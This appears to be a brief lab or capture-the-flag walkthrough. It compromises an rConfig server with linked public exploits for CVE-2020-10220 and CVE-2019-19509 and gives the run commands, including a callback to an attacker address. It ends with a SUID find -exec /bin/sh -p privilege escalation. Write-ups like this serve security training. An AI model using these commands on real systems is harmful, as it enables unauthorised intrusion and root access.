








Searching for vulnerabilites we found:
https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py


Modifying request to verify=False to prevent SSL errors.

```
python3 rconfig_CVE-2020-10220.py https://192.168.241.57:8081
```

We get an admin hash.


We can crack it.

Now we can use this [exploit](https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2019-19509.py) after modifying all request.get() by adding verify=False
```
python3 rconfig_CVE-2019-19509.py https://192.168.241.57:8081 admin abgrtyu 192.168.45.166 8081
```


Running linpeas:


using gtfobins:


```
/usr/bin/find . -exec /bin/sh -p \; -quit
```
